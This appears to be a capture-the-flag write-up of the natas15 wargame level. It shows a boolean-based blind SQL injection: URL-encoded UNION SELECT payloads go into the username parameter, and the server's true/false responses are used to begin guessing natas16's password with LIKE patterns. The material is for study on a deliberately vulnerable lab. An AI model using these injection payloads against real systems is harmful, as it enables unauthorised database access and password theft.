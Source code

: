 Assuming the user and password for the next natas16 is in the table and we're supposed to find this I tested if natas16 exists with the web page, and it does.

Since burp is crazy slow, I think it's time to make a python script for this.

But first let's test true false with the table name

True:
```http
GET /index.php?debug&username=a1d2m3i4n5%22+union+select+1%2C2+FROM+information_schema.tables+WHERE+table_schema%3d'natas15'+and+table_name%3d'users'%3b--+- HTTP/1.1
...
```

```
Executing query: SELECT * from users where username="a1d2m3i4n5" union select 1,2 FROM information_schema.tables WHERE table_schema='natas15' and table_name='users';-- -"

This user exists.
```

False:
```http
GET /index.php?debug&username=a1d2m3i4n5%22+union+select+1%2C2+FROM+information_schema.tables+WHERE+table_schema%3d'natas15'+and+table_name%3d'gurkburk'%3b--+- HTTP/1.1
...
```

```
Executing query: SELECT * from users where username="a1d2m3i4n5" union select 1,2 FROM information_schema.tables WHERE table_schema='natas15' and table_name='gurkburk';-- -"
This user doesn't exist.
```

The output difference:
true = "This user exists."
false = "This user doesn't exist."

Let's make a query for the passwords first letter

should be true
a1d2m3i4n5" union select 1,2 from users where username='natas16' and password like '%';-- -
a1d2m3i4n5"+union+select+1,2+from+users+where+username%3d'natas16'+and+password+like+'%25'%3b--+-

then test with one character
a1d2m3i4n5" union select 1,2 from users where username='natas16' and password like '1%';-- -

```http
GET /index.php?debug&username=a1d2m3i4n5"+union+select+1,2+from+users+where+username%3d'natas16'+and+password+like+'%25'%3b--+- HTTP/1.1
```

```
Executing query: SELECT * from users where username="a1d2m3i4n5" union select 1,2 from users where username='natas16' and password like '%';-- -"

This user exists.
```
